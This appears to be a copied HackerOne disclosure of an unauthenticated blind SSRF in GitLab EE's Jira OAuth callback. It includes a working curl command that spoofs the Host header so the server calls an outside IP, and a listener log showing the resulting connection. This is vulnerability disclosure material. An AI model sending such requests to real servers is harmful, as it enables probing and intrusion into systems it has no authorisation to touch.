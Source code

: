 ### Unauthenticated blind SSRF in OAuth Jira authorization controller
https://hackerone.com/reports/398799  

### Steps to reproduce the issue
1. spin up a GitLab EE instance with the latest version (11.2.1-ee
2. send a POST request to the /-/jira/login/oauth/callback endpoint, as shown below. In the request, point the Host header to the hostname / IP address and port number you want to send the request to
  ```curl -X POST -H 'Host: 162.243.147.21:81' 'https://gitlab.com/-/jira/login/oauth/access_token'```
3. Observe a POST request being sent to 162.243.147.21:81 (in this case HTTPS):
  ```
Listening on [0.0.0.0] (family 0, port 81)
Connection from [35.231.137.154] port 81 [tcp/*] accepted (family 2, sport 58558)
��ؒ����
��/$����4�i�,�֟J%>�+�/�,�0�����#�'�	��$�(�
�gk39@j28��<=/5�l162.243.147.21

 Connection closed, listening again.
```
Unable to understand the report properly
